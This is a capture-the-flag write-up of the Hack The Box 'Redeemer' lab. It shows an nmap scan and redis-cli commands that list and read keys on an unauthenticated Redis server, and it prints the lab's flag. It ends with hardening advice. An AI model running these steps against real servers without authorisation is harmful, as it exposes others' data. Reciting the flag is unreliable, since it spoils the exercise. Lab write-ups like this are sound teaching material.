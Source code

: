 # CTF Writeup: Redeemer(HTB)
## Overview

This report details the process and findings from a Capture The Flag (CTF) challenge targeting a host running a Redis service. The objective was to enumerate, access, and extract sensitive information from the Redis instance.

---

## Table of Contents

- [Target Information](#target-information)
- [Enumeration](#enumeration)
- [Redis Interaction](#redis-interaction)
- [Flag Extraction](#flag-extraction)
- [Conclusion](#conclusion)

---

## Target Information

- **IP Address:** `10.129.136.187`
- **Service Identified:** Redis 5.0.7 (TCP/6379)
- **Operating System:** Linux 5.4.0-77-generic x86_64

---

## Enumeration

### 1. Port Scanning

A comprehensive Nmap scan was performed to identify open ports and running services.

```bash
nmap -Pn -A -sV -sC -p- 10.129.136.187 -vvv -oN nmap.txt
````

**Key Findings:**

- **Port 6379/tcp:** Open, running Redis key-value store (version 5.0.7)
- **OS Detection:** Linux 4.X/5.X
- **No other open ports detected**

---

## Redis Interaction

### 2. Connecting to Redis

Connected to the Redis service using the `redis-cli` tool:

Bash

```
redis-cli -h 10.129.136.187
```

### 3. Gathering Server Information

Executed the `INFO` command to enumerate server details:

redis

```
info
```

**Notable Output:**

- **Redis Version:** 5.0.7
- **Operating System:** Linux 5.4.0-77-generic x86_64
- **Number of Keys:** 4 (in db0)
- **Role:** Master

### 4. Enumerating Keys

Selected the default database and listed all keys:

redis

```
select 0
keys *
```

**Keys Found:**

- numb
- flag
- stor
- temp

---

## Flag Extraction

### 5. Retrieving the Flag

Accessed the value of the `flag` key:

redis

```
get flag
```

**Flag Obtained:**

text

```
03e1d2b376c37ab3f5319922053953eb
```

---

## Conclusion

The Redis service was found to be accessible without authentication, allowing enumeration and extraction of sensitive data. The flag was successfully retrieved from the `flag` key in the Redis database.

---

## Recommendations

- **Restrict Redis Access:** Bind Redis to localhost or implement firewall rules to prevent unauthorized remote access.
- **Enable Authentication:** Configure Redis with a strong password.
- **Regularly Audit Services:** Ensure exposed services are secured and monitored.

---

**Flag:** `03e1d2b376c37ab3f5319922053953eb`
